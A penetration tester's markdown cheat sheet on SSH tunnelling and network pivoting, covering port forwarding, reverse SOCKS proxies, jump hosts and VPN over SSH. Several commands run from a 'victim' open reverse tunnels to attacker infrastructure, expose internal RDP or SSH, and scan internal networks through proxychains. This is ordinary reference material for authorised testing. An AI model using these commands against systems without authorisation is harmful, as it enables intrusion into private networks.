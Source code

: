 
### local port forwarding

requires: 'AllowTcpForwarding yes' on SSHD

    ssh <gateway> -L <local port to listen>:<remote host>:<remote port>
    (exposes remote service <remote host>:<remote port> to local port via ssh tunnel)
    (connections made to <local port to listen> will be forwarded to <remote host>:<remote port>)

    # use case #1: prepare tunnel for attacking your victim
    pen-tester$ ssh user@attack-infra -L 1234:victim:80
    pen-tester$ curl http://127.0.0.1:1234

    # use case #2: attack victim's 445 port when access to it's sshd has been obtained
    attack-infra$ ssh user@victim -L 1234:127.0.0.1:445
    pen-tester$ nbtscan attack-infra:1234

### remote port forwarding

requires: 'AllowTcpForwarding yes' on SSHD

    ssh <gateway> -R <remote port to bind>:<local host>:<local port>
    (exposes local serivce <local host>:<local port> on the remote host via ssh tunnel)
    (connections made to <remote port to bind> on remote host will be forwared to <local host>:<local port>)

    # use case #1: expose internal RDP service to outside of the intranet
    victim$ ssh user@attack-infra -p53 -R 1234:127.0.0.1:3389
    pen-tester$ rdesktop attack-infra:1234 

    # use case #2 (special case of #1): reverse SSH tunnel (from victim to attack-infra)
	# NOTE: on attack-infra in /etc/ssh/sshd_config set 'GatewayPorts yes' to be able connect from pen-tester
    victim$ ssh -f -N -p53 -R 2222:127.0.0.1:22 user@attack-infra
    pen-tester$ ssh user@attack-infra -p2222

    # use case #3 (the same as #2 but with additional IP access control) - didn't work for me
	# NOTE: on attack-infra in /etc/ssh/sshd_config set 'GatewayPorts clientspecified' to be able connect from pen-tester
    victim$ ssh -f -N -p53 -R <pen-tester-ip>:2222:127.0.0.1:22 user@attack-infra
    pen-tester$ ssh user@attack-infra -p2222

### dynamic port forwarding

Requires: `AllowTcpForwarding yes` on SSHD (default setting)

    ssh -D <local proxy host:port> -p <remote port> <target>

    # use case #1: create local socks4 proxy which will tunnel incoming traffic to victimDMZ
    ssh -D1234 -p22 user@victim

    # use case #2: reverse ssh from victim allows to scan whole internal network
    victim$ ssh -f -N -R 2222:127.0.0.1:22 root@attack-infra
    pen-tester$ ssh -f -N -D 127.0.0.1:8082 -p 2222 root@attack-infra
    pen-tester$ (add 'socks4 127.0.0.1 8082' to /etc/proxychains.conf)
    pen-tester$ proxychains nmap --top-ports=20 -sT -Pn <target> 

Wrapper to provide `ssh -D` functionality in cases when forwarding is disabled (`AllowTcpForwarding No`):

	https://github.com/TarlogicSecurity/SaSSHimi

### reverse SOCKS proxy

On Linux box (SSH’d to localhost with the -D option to get the SOCKS server running, then make a second connection to the Internet to port-forward access to the SOCKS service):

```
# (not verified solution yet):
ssh -D4321 user@127.0.0.1
ssh -N -P443 -i key.pem -R 1234:127.0.0.1:4321 user@external_attack_machine

# on 'external_attack_machine' use proxchains with following configuration:
socks5 127.0.0.1 1234
```

From Windows box (3rd party software needed to run SOCKS server):

    https://labs.portcullis.co.uk/blog/reverse-port-forwarding-socks-proxy-via-http-proxy-part-1/

Possible alternative (no SSH used) solutions:

    https://github.com/klsecservices/rpivot
    https://github.com/sensepost/reGeorg

### SSH over SSL

    http://blog.chmd.fr/ssh-over-ssl-episode-2-replacing-proxytunnel-with-socat.html

### ssh over socks proxy

    $ ssh -i key.pem -o 'ProxyCommand=nc -X 5 -x proxy:1080 %h %p' user@host

### connect to host via other SSH jump box

Basic scenario:

    ssh -o ProxyCommand="ssh -W %h:%p -i proxykey.pem proxy_user@proxy_host" user@host
    scp -r -o ProxyCommand="ssh -W %h:%p -i proxykey.pem proxy_user@proxy_host" user@host:dir ./

Multiple SSH hops:

    ssh -i host-key.pem -J user1@hop1,user2@hop2 user@host
	scp -i host-key.pem -r -o 'ProxyJump user1@hop1,user2@hop2' user@host:dir ./

Multiple SSH hops each requiring different identity key:

```
eval `ssh-agent -s`
ssh-add -D
ssh-add key1.pem 
ssh-add key2.pem
ssh -i host-key.pem -Juser1@hop1,user2@hop2 user@host
```

### VPN over SSH

Requires modifications of sshd configuration, specifically:

```
PermitRootLogin yes
PermitTunnel yes # non-default setting
```

Run:

```
ssh username@server -w any:any
```

For detailed setup see: `https://artkond.com/2017/03/23/pivoting-guide/#vpn-over-ssh`.

### custom VPN solution over SSH

Poor's man VPN solution over SSH tunnel (no server-side modifications are needed):

    https://github.com/sshuttle/sshuttle

### mounting directories over SSH

    https://github.com/libfuse/sshfs
    # reverse sshfs solution:
    https://superuser.com/questions/616182/how-to-mount-local-directory-to-remote-like-sshfs/918708#918708

### Metasploit via jump host

    https://www.ryanwendel.com/2020/02/02/forwarding-shells-through-a-jump-box-using-ssh/

   

